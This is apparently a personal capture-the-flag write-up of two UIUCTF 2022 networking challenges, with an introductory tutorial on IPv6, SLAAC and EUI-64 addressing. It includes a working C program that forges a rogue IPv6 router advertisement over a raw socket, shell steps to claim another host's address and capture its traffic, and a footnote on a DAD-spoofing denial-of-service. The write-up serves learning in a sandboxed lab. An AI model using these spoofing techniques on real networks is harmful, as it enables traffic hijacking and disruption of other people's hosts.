










# UIUCTF 2022

*These writeups are also readable on my [personal website](https://shawnd.xyz/blog/) and [team website](https://irissec.xyz/articles/).*

I recently did a great challenge at UIUCTF 2022 that forced me to finally bite the bullet and learn IPv6. This particular challenge involved forcing hosts on a network to change their IP addresses by crafting and sending a rogue router advertisement. During the event, I also found an unintended solution that I'll be discussing, and I'll also be explaining some fundamental IPv6 concepts in-depth throughout this writeup so that you, too, can learn the basics of IPv6.

All files can be found in the [uiuctf directory](./files/2022-uiuctf/).

## Contents

- [systems/Dad's Rules](#systemsdads-rules)
- [systems/Dad's Rules Fixed](#systemsdads-rules-fixed)

## The IPv4 Address Exhaustion Problem and IPv6

To start, IPv6 was first introduced in 1995 as the successor to the more dominant IPv4 due to the realization of the IPv4 address exhaustion problem: IPv4 has 32-bit addresses, meaning that there are only 2^32 = 4,294,967,296 possible IPv4 addresses; there are not enough IPv4 addresses to keep up with the growth of the Internet. IPv6 was ratified in 2017 and is now steadily growing in use with substantially larger 128-bit addresses. Its current specification is described in detail by [RFC 8200](https://datatracker.ietf.org/doc/html/rfc8200){:target="_blank"}.

IPv4 and IPv6 addresses differ substantially. The following are the IPv4 and IPv6 addresses of my website, [shawnd.xyz](https://shawnd.xyz/){:target="_blank"}:

```
shawnd.xyz

IPv4: 144.202.14.48
Binary: 10010000.11001010.00001110.00110000

IPv6: 2001:19f0:5:6b81:5400:2ff:feea:6376
Binary: 0010000000000001.0001100111110000.0000000000000101.0110101110000001.0101010000000000.0000001011111111.1111111011101010.0110001101110110
```

Notice how in IPv6, leading hexadecimal zeroes are allowed to be omitted. Addresses are represented as 8 colon-separated hexadecimal groupings of 4. IPv6 addresses can also replace consecutive groups of zeroes with `::` once. For example, the following is the IPv6 loopback address and its shortened form:

```
0000:0000:0000:0000:0000:0000:0000:0001
::1
```

Due to the larger address space available in IPv6, we can get rid of something known as NAT.

## NAT and SLAAC

Network Address Translation (NAT) is an important part of IPv4 that translates an external IP address:port into an internal IP address:port, typically performed by the router. More generally, it translates between IP address spaces.

When you communicate on the Internet, the other end can only see your public (exit) IP address thanks to NAT, and this public IP address is typically shared with everyone else in your home network, coffee shop network, university network, or whatever other network you may be using at the time, unless you're routing your traffic through a VPN, TOR, or other sort of proxy, in which case NAT is performed at one or more additional levels.

NAT typically goes something like so:



**IPv6 obsoletes NAT.** In IPv6, all nodes have a **globally unique address** that can be used to communicate outside of their local network. These can be assigned manually, automatically with DHCPv6, or, as we will discuss, autonomously using a new mechanism known as SLAAC.

Stateless Address Auto-Configuration (SLAAC) allows hosts to get their own globally unique addresses in a stateless manner, meaning that there is no need for any sort of central server or local cache to keep track of existing address assignments on the network. Hosts generate their own link-local IPv6 addresses and then make sure their address is unique within their local context using Duplicate Address Detection (DAD), where they ask the local network if anyone else in that network has that address by sending out Neighbor Discovery Protocol (NDP) messages.¹

This link-local address can be generated any number of methods. One such method to is suffix the link-local address prefix `fe80::/64` with an interface identifier generated using the EUI-64 method described in Appendix A of [RFC 4291](https://www.rfc-editor.org/rfc/rfc4291.html){:target="_blank"}: 48-bit MAC addresses can generate an EUI-64 identifier by inserting `ff:fe` in the middle of the MAC and then flipping the 7th bit from the left. For example:

```
MAC Address: 11:22:33:aa:bb:cc

1. Insert ff:fe.
11:22:33:ff:fe:aa:bb:cc

2. Flip the 7th bit from the left.
11:22:33:ff:fe:aa:bb:cc
^^
11 -> 0001 0001 -> 0001 0011 -> 13

3. Suffix to the link-local prefix.
fe80::1322:33ff:feaa:bbcc
```

If a host receives no response from NDP and thus, DAD finds out its generated link-local IPv6 address is unique within that link, then the address can now be used for local-scope communications. In order to get a globally unique address for global-scope communications, the host can now send router solicitations using its link-local address. A responding router advertisement informs the host of the network's Global Unicast Allocation (GUA) prefix, and the host suffixes this with it EUI-64.

The entire process from joining a network to generating a link-local address and then a globally unique address may look something like so:

Note that the host can use the multicast address `ff02::1` for all IPv6 nodes or `ff02::2` for all IPv6 routers.



Now that we understand IPv6 addresses and how they're made, we can finally start the challenge.

## systems/Dad's Rules

*Challenge written by YiFei Zhu.*

> IPv6 is so complicated... Why is RFC 4861 so long?! And then there's RFC 4862...
>
> `stty raw -echo isig; nc dads-rules.chal.uiuc.tf 1337`

Files: `handout.tar.zst`

Checksum (SHA-1):

```
c9ca6e073e5aa984798185d6d6d5a4c39cde932f  handout.tar.zst
```

Right off the bat, [RFC 4861](https://datatracker.ietf.org/doc/html/rfc4861){:target="_blank"} (IPv6 NDP) and [RFC 4862](https://datatracker.ietf.org/doc/html/rfc4862){:target="_blank"} (SLAAC) are referenced, both topics just discussed. The title of the challenge is a reference to DAD, another topic just discussed. Let's crack open the challenge and see what we have.





A bunch of commands are run when we first start up the challenge. Let's dissect what they mean so we can understand the environment we're dropped in:

```sh
# Mounting and setup stuff.
+ mount -n -t proc -o nosuid,noexec,nodev proc /proc/
+ mkdir -p /dev /sys /etc
+ mount -n -t devtmpfs -o mode=0755,nosuid,noexec devtmpfs /dev
+ mount -n -t sysfs -o nosuid,noexec,nodev sys /sys
+ mount -n -t tmpfs -o mode=1777 tmpfs /tmp
+ mount -n -t 9p flag -o nosuid,noexec,nodev,version=9p2000.L,trans=virtio,msize=104857600 /mnt

# Accept IPv6 router advertisements if forwarding is disabled.
+ sysctl -qw net.ipv6.conf.all.accept_ra=1
+ sysctl -qw net.ipv6.conf.default.accept_ra=1

# Replace the shell with the jail shell.
+ exec /home/user/jail

# Create network namespaces [bridge] and [flag].
+ ip netns add bridge
+ ip netns add flag

# Create virtual Ethernet devices:
#   jail_br <---> jail_if
#   flag_br <---> flag_if
# Anything received on one end will be received on the other end.
+ ip link add jail_br type veth peer jail_if
+ ip link add flag_br type veth peer flag_if

# Set the [fail_if] and [flag_if] MAC addresses.
+ ip link set jail_if address 4a:c5:2d:9b:8c:8d
+ ip link set flag_if address 8a:15:22:31:b4:fc

# Move [jail_br] and [flag_br] to the bridge namespace.
+ ip link set jail_br netns bridge
+ ip link set flag_br netns bridge

# Move [jail_if] and [flag_if] to the jail and flag namespaces, respectively.
+ ip link set jail_if netns jail
+ ip link set flag_if netns flag

# On namespace bridge, add bridge named [br0].
+ ip -n bridge link add br0 type bridge

# Bring up [br0] and add [jail_br] and [flag_br] interfaces to it.
+ ip -n bridge link set br0 up
+ ip -n bridge link set jail_br up master br0
+ ip -n bridge link set flag_br up master br0

# On namespace [jail], bring up [jail_if].
+ ip -n jail link set jail_if up

# Add default IPv6 route through [jail_if].
+ ip -n jail -6 route add default dev jail_if

# On namespace [flag], bring up [flag_if].
+ ip -n flag link set flag_if up

# Add default IPv6 route through [flag_if].
+ ip -n flag -6 route add default dev flag_if

# On namespace jail, bring up [lo] (loopback).
+ ip -n jail link set lo up

# Create an IPv6 netfilter table called [filter].
+ ip netns exec bridge nft add table ip6 filter

# Create a filter chain named [forward].
+ ip netns exec bridge nft add chain ip6 filter forward '{' type filter hook forward priority 0 ';' policy drop ';' '}'

# Accept packets with source Ethernet MAC [4a:c5:2d:9b:8c:8d] and destination Ethernet MAC [8a:15:22:31:b4:fc].
+ ip netns exec bridge nft add rule ip6 filter forward ether saddr 4a:c5:2d:9b:8c:8d ether daddr 8a:15:22:31:b4:fc accept

# Accept packets with source Ethernet MAC [8a:15:22:31:b4:fc] and source IPv6 address [2001:db8:6e02:2663:8815:22ff:fe31:b4fc].
+ ip netns exec bridge nft add rule ip6 filter forward ether saddr 8a:15:22:31:b4:fc ether daddr 4a:c5:2d:9b:8c:8d ip6 saddr 2001:db8:6e02:2663:8815:22ff:fe31:b4fc accept

# Accept packets with source Ethernet MAC [8a:15:22:31:b4:fc] and the next IPv6 header is an IPv6 ICMP.
+ ip netns exec bridge nft add rule ip6 filter forward ether saddr 8a:15:22:31:b4:fc ip6 nexthdr ipv6-icmp accept

# Every second on the flag namespace, write the flag to IPv6 address [2001:db8:6e02:2663:48c5:2dff:fe9b:8c8d] port [16611].
+ ip netns exec flag bash -c '(while true; do timeout 0.1 nc -u 2001:db8:6e02:2663:48c5:2dff:fe9b:8c8d 16611 < /mnt/flag &> /dev/null; sleep 1; done) &'
```

We have access to `jail_if`, which is linked to `jail_br` that shares the `bridge` namespace with `flag_br`, which is linked to `flag_if`. The jail shell simply restricts us to the jail namespace. We're running the non-jailed challenge locally so we can better debug and see what happens on other namespaces if needed, and once we create our solution, it must work on the jailed counterpart running on the remote challenge server.

On the bridge namespace, nft (netfilter tables, not non-fungible tokens) rules are added to an ip6 table called `filter` that only allows--

Wait a second. That table isn't supposed to be an ip6 table; it's supposed to be a bridge table. That means that these rules are useless, and that all we need to do is change our IPv6 address to that which the flag namespace is sending to in order to get the flag.

We can run this command to give ourselves the flag's destination IP address on our `jail_if` interface:

```sh
$ ip -6 addr add 2001:db8:6e02:2663:48c5:2dff:fe9b:8c8d dev jail_if
```

Then, we can run `tcpdump` and exfiltrate the pcap back to our machine by copy-pasting the data as base64, and view the traffic with Wireshark. That is to say:

```sh
# From the remote challenge shell.
$ tcpdump -c 16 -w data.pcap && base64 data.pcap
```

```sh
# From our local device, after copy-pasting the base64 to exfiltate it.
$ base64 -d data.64 > data.pcap && wireshark data.pcap
```







```
uiuctf{wait_the_hop_limit_matters?!_4c1bda13}
```

This was unintended.

## systems/Dad's Rules Fixed

*Challenge written by YiFei Zhu.*

> Netfilter is also too complicated.
>
> `$ stty raw -echo isig; nc dads-rules-fixed.chal.uiuc.tf 1337`

Files: handout_FIXED.tar.zst

Checksum (SHA-1):

```
80fefa435b70f6739124044a4afcadf4adbc2900  handout_FIXED.tar.zst
```

The unintended solution has been fixed.



As I was saying before, on the bridge namespace, rules are added to a **bridge** table called `filter` that only allow data to pass if one of three rules are satisfied:

```
1.    ((src mac == 4a:c5:2d:9b:8c:8d) and (dest mac == 8a:15:22:31:b4:fc))
2. OR ((src mac == 8a:15:22:31:b4:fc) and (src ip6 == 2001:db8:6e02:2663:8815:22ff:fe31:b4fc))
3. OR ((src mac == 8a:15:22:31:b4:fc) and (next IPv6 header == IPv6 ICMP))
```

That is to say, we can send anything from `jail_if` to `flag_if` with zero restrictions. `flag_if` can only send to other hosts if it has the IPv6 address `2001:db8:6e02:2663:8815:22ff:fe31:b4fc`, or if it's sending out IPv6 ICMP data.

Notice that `2001:db8:6e02:2663:8815:22ff:fe31:b4fc` can clearly be generated using the `flag_if`'s 48-bit MAC address `8a:15:22:31:b4:fc` via SLAAC using the same procedure discussed earlier:

```
MAC Address: 8a:15:22:31:b4:fc

1. Insert ff:fe.
8a:15:22:ff:fe:31:b4:fc

2. Flip the 7th bit from the left.
8a:15:22:ff:fe:31:b4:fc
^^
8a -> 1000 1010 -> 1000 1000 -> 88

3. Suffix to the link-local prefix.
fe80::8a15:22ff:fe31:b4fc
```

If `flag_if` were to receive a router advertisement with the prefix `2001:db8:6e02:2663::/64`, then it would use its EUI-64 to generate the globally unique address `2001:db8:6e02:2663:8815:22ff:fe31:b4fc`. Thus, it would pass through the bridge since it satisfies table `filter` rule 2.

At this stage, we have discovered the solution: give `jail_if` the flag's destination IP address, and then send a rogue router advertisement to `flag_if` with the prefix `2001:db8:6e02:2663::/64`; we will pass through the bridge as our MAC addresses satisfy table `filter` rule 1. `flag_if` will calculate its global scope IPv6 address and start using that to send to the flag's destination IP. Because `jail_if` has the destination IP, we will receive it.

The hard part is implementation. I chose to write my exploit in C, compile on my local system, and then transfer it to the challenge server by encoding-copy-pasting-decoding base64 data since there's no GCC on the challenge server. My exploit sends a rogue router advertisement with the right source and destination MACs and the desired prefix:

```c
#include <arpa/inet.h>
#include <linux/if_packet.h>
#include <net/if.h>
#include <netinet/ether.h>
#include <sys/ioctl.h>
#include <string.h>

int main()
{
	int sockfd = 0;
	int tx = 0;
	char buffer[1024] = {0};
	char *iface = "wlp3s0";
	struct ifreq ifacei;
	struct ether_header *eh = (struct ether_header *)buffer;
	struct sockaddr_ll socket_address;

	/* Make a socket. */
	sockfd = socket(AF_PACKET, SOCK_RAW, IPPROTO_RAW);

	/* Get the interface index. */
	memset(&ifacei, 0, sizeof(struct ifreq));
	strncpy(ifacei.ifr_name, iface, strlen(iface));
	ioctl(sockfd, SIOCGIFINDEX, &ifacei);

	/* Ethernet source and destination MACs. */
	memcpy(eh->ether_shost, "\x4a\xc5\x2d\x9b\x8c\x8d", 6);
	memcpy(eh->ether_dhost, "\x8a\x15\x22\x31\xb4\xfc", 6);

	/* Ether type. */
	eh->ether_type = htons(ETH_P_IP);
	tx += sizeof(struct ether_header);

	/* Interface index. */
	socket_address.sll_ifindex = ifacei.ifr_ifindex;

	/* Address length. */
	socket_address.sll_halen = ETH_ALEN;

	/* Destination MAC */
	memcpy(socket_address.sll_addr, "\x8a\x15\x22\x31\xb4\xfc", 6);

	/* Packet data. */
	char data[] =
		"\x8a\x15\x22\x31\xb4\xfc"  // Destination MAC
		"\x4a\xc5\x2d\x9b\x8c\x8d"  // Source MAC
		"\x86\xdd"                  // Type IPv6
		"\x6e"                      // Version 6
		"\x00\x00\x00"              // Flow label
		"\x00\x40"                  // Payload length
		"\x3a"                      // Next header ICMPv6
		"\xff"                      // Hop limit
		"\xfe\x80\x00\x00\x00\x00"  // Source
		"\x00\x00\x48\xc5\x2d\xff"  // |
		"\xfe\x9b\x8c\x8d"          // |
		"\xff\x02\x00\x00\x00\x00"  // Destination
		"\x00\x00\x00\x00\x00\x00"  // |
		"\x00\x00\x00\x01"          // |
		"\x86"                      // Neighbor advertisement
		"\x00"                      // Code 0
		"\x55\x22"                  // Checksum
		"\x40"                      // Current hop limit
		"\x08"                      // Flags
		"\x07\x08"                  // Router lifetime
		"\x00\x00\x00\x00"          // Reachable time
		"\x00\x00\x00\x00"          // Retrans timer
		"\x01\x01"                  // ICMPv6 option source MAC
		"\x4a\xc5\x2d\x9b\x8c\x8d"  // Source MAC
		"\x05\x01"                  // ICMPv6 option MTU
		"\x00\x00\x00\x00\x05\xdc"  // MTU
		"\x03\x04"                  // ICMPv6 option prefix information
		"\x40"                      // Prefix length
		"\x40"                      // Flags and stuff
		"\x00\x27\x8d\x00"          // Valid lifetime
		"\x00\x09\x3a\x80"          // Preferred lifetime
		"\x00\x00\x00\x00"          // Reserved
		"\x20\x01\x0d\xb8\x6e\x02"  // Prefix
		"\x26\x63\x00\x00\x00\x00"  // |
		"\x00\x00\x00\x00"          // |
	;

	/* Copy the data into the buffer. */
	memcpy(buffer, data, sizeof(data));
	tx += sizeof(data);

	/* Send the buffer. */
	sendto(sockfd, buffer, tx, 0, (struct sockaddr*)&socket_address, sizeof(struct sockaddr_ll));

	return 0;
}
```

Since there were no libraries on the challenge server, I had to compile with static linking. To reduce transfer time, I gzipped it up before encoding-copy-pasting-decoding the base64 binary:

```sh
$ gcc -static main.c
$ gzip a.out
$ base64 a.out | xclip -selection clipboard
```

Transfer speeds were so slow that I sometimes timed out on the challenge server and had to start all over again. Eventually, I did manage to get it in time. After that, it's simply changing our IP, running the exploit, dumping network traffic, and then exfiltrating the pcap just as we did before:

```sh
$ ip -6 addr add 2001:db8:6e02:2663:48c5:2dff:fe9b:8c8d dev jail_if
$ base64 -d data.b64 > a.out.gz && gunzip a.out && chmod +x a.out && ./a.out
$ tcpdump -c 4 -w data.pcap && base64 data.pcap
```



```
uiuctf{wait_theres_a_bridge_family?!_f81a1c2c}
```

In a conversation with the author through modmail after I completed the challenge, I later learned that the machine had trafgen.



Lovely challenge that forced me to finally start learning IPv6.

Happy hacking!

<hr>
<br>

Footnotes:

¹ Note that this leads to an interesting denial-of-service (DoS) attack in which a malicious host can respond to all of a connecting host's DAD queries with spoofed, positive replies, resulting in the connecting host never being able to get an IPv6 address for routing and thus, no service.

All networking diagrams were created by me using yED and ImageMagick. You may use them in your own work for free, but I ask that you please attribute them to Shawn Duong, [shawnd.xyz](https://shawnd.xyz/){:target="_blank"}.
